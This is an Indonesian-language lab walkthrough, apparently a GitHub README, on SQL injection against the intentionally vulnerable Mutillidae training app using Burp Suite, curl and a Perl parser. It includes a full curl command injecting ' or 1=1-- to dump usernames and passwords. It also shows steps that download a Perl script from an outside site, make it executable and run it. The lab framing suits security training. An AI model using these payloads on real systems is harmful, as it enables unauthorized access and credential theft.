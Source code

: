 # SQL Injection, Burpsuite, cURL, Perl Parser

1. Masuk ke halaman sqli user info dengan cara klik menu pada sidebar kiri ```Owasp Top 10 -> A1 - Injection -> SQLi - Extract Data -> User Info```
![1](/lesson7/1.png)

2. Setting proxy agar dapat ditangkap oleh Burpsuite dengan host ```127.0.0.1``` dan port ```8080```
![1](/lesson7/2.png)

3. Buka program Burpsuite
![1](/lesson7/3.png)

4. Pastikan option pada tab proxy (di section proxy listener) terdaftar alamat ```127.0.0.1``` dan portnya adalah ```8080```
![1](/lesson7/4.png)

5. Pastikan juga intercept pada tab proxy menunjukkan bahwa intercept nya dimatikan ```intercept is off```
![1](/lesson7/5.png)

6. Lakukan sql injection sederhana (yang biasa digunakan untuk mengembalikan nilai always true)
![1](/lesson7/6.png)

7. Dapat kita lihat dibawahnya terdapat data yang menunjukkan seluruh user yang terdaftar.
![1](/lesson7/7.png)

8. Buka Burpsuite dan lihat data yang berada di url ```/mutillidae/index.php?page=user-info.php```
![1](/lesson7/8.png)

9. gunakan curl seperti dibawah ini untuk mengambil data username, password, dan signature dari halaman yang tadi kita lakukan sql injection.
```
curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+or+1%3D1--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://192.168.1.111/mutillidae/index.php" | grep -i "Username=" | awk 'BEGIN{FS="<"}{for (i=1; i<=NF; i++) print $i}' | awk -F\> '{print $2}'
```
![1](/lesson7/9.png)

10. Sekarang kita coba perl parser
 1. download script perl dengan command
 ```
 wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson7/lesson7.pl.TXT
 ```
 2. rename script tersebut dengan command
 ```
 mv lesson7.pl.TXT lesson7.pl
 ```
 3. ubah mode file tersebut agar dapat di eksekusi dengan command
 ```
 chmod 700 lesson7.pl
 ```
 4. jalankan script tersebut dengan command
 ```
 ./lesson7.pl
 ```
![1](/lesson7/10.png)
